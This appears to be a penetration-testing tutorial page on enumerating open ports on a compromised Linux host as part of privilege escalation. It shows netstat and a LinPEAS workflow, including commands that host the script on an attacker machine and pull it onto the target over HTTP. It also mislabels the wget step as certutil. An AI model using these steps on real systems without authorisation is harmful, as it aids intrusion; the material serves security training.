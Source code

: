 ### **INTRODUCTION**

Before we start, we need to know exactly what it is that we are looking for.

1.  Local Address 0.0.0.0: The service is listening on all interfaces and will be visible locally, internally, and externally. If we find a service listening on 0.0.0.0 that was not visible externally on our nmap scan, this means the firewall is blocking inbound connections to this port. This is a port forwarding opportunity!
2.  Local Address 127.0.0.1: The service is only listening for connections locally from this host (localhost), not anywhere else. This is a port forwarding opportunity!
3.  Local Address 172.16.1.150:: The service is only listening for connections from the local network (internally). Only hosts on the local network can connect to this service. This is a port forwarding opportunity!

### **ENUMERATING OPEN PORTS – MANUAL METHOD**

1.  To enumerate open ports on a Linux host, we can simply use this one command:  
    `netstat -tulpn`  

    ![](../../../img/Linux-Environment/39.png)  

    ??? info "Tips & Tricks"

        To investigate an internal port, use `ps -ef | grep 3360` to find the process details.

### **ENUMERATING OPEN PORTS – AUTOMATED METHOD (LINPEAS)**

1.  If you don’t already have LINPEAS, you can get LINPEAS using the following command:  
    `wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`  
    
    ![](../../../img/Linux-Environment/40.png)  
    
2.  Host the LINPEAS Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../img/Linux-Environment/41.png)  
    
3.  Transfer the script to the target machine using certutil:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`  
    
    ![](../../../img/Linux-Environment/42.png)  
    
4.  Then, back on the target machine, we can use the following command to download and execute LinPEAS  
    
    ![](../../../img/Linux-Environment/43.png)  

    ??? info "NOTE"

        Scrolling down to the Network Information > Active Ports, we can see that it’s the same as the output from netstat, which is actually what LinPEAS uses to pull this info for us. 